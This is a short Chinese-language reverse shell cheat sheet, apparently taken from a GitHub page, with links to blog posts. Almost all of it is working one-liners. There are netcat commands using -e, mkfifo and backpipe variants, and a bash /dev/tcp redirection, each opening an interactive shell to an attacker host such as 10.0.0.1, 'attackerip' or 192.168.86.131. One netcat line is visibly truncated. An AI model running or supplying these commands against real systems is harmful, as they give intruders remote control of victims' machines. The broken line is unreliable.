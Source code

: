 0x06 NetCat
```
nc -e /bin/sh 10.0.0.1 1234　　#不同版本的nc不一定支持-e选项
```
不能使用-e选项时：
```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe
/bin/sh | nc attackerip 4444
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/
```
安装的NC版本有问题时：
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html

---

bash直接反弹
靶机
```
bash -i >& /dev/tcp/192.168.86.131/8080 0>&1
````
0是标准输入，1为标准输出，2是标准错误信息输出。
这个命令的意思是：bash产生了一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即TCP 8080 会话连接）相结合，然后在重定向个tcp 8080会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个bash 反弹环境。


https://www.smi1e.top/linux-%E5%8F%8D%E5%BC%B9shell%E6%96%B9%E6%B3%95/
